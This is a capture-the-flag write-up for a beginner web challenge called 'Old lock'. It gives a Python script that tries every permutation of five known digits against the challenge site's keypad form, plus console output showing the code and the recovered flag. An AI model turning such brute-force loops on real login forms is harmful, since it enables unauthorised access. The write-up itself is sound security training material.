

# Singapore - Harbour
Category: Web

## Description

> Boy this has been a tough journey, you had luck that you entered a box that contained some food. You hear foul voices and feel that some people pick up your box, and carry it to another place. When the voices disappear, you take the chance to escape. You have successfully arrived in Singapore. You find a peaceful café, order a cup of tea and charge your cell phone. PLING, you’ve received another text message from the boss: "I pretend that I don’t know where you are, but I do. You’ll have to forgive me, but I’ve had a tracker on you all the time. You have finally reached Singapore, find "M/S. Revenger" and sneak onboard, it will take you to our enemy's hidden island, make it quick, the ship is leaving the harbor soon, I count on you AGENT!." Look, overthere "M/S Revenger", you have to get closer! Hmm, but it seems quite guarded. You will have to swim! You go away from the ship and dive into the warm and clear water. It’s nice to go for a swim but you would have preferred it to be under more relaxed circumstances. You swim slowly towards the ship, finally you reach it, climb up on the side of it and in through a window. You find yourself in a cabin with locked doors. Thankfully, it's an electronic lock.
> 
> Challenge: Old lock (web)
> 
> You're not sure what metal the keypad was made of, but either it was very soft, or whoever punches in the code has waay too much strength in their fingers. This also means you're in luck, since it's pretty obvious which digits are actually used in the 5-digit code. The order is unknown, but there can't be that many possibilities, right? Note: Online brute forcing is allowed in this task.

## Solution

The attached website displays the following:



We'll just try all possibilities:

```python
from pwn import *

import requests
import itertools

keys = [3, 5, 7, 8, 0]

with log.progress("Brute-forcing combination") as p:
    for permutation in itertools.permutations(keys):
        passcode = "".join(map(str, permutation))
        p.status(f"Trying {passcode}")
        r = requests.post("https://old-lock-web.2021.ctfcompetition.com/", data = {"v": passcode})
        if not "that's not it" in r.text:
            log.info(f"Found code: {passcode}")
            break
```

After a short while we get the combination:

```console
┌──(user@kali)-[/media/sf_CTFs/google/12_Singapore_-_Harbour]
└─$ python3 solve.py
[/] Brute-forcing combination: Trying 87053
[*] Found code: 87053

┌──(user@kali)-[/media/sf_CTFs/google/12_Singapore_-_Harbour]
└─$ curl 'https://old-lock-web.2021.ctfcompetition.com/' -s --data-raw 'v=87053' | grep CTF
<p>Got it!<br>CTF{IThinkWeNeedToReplaceTheKeypad}</p>    </div>
```

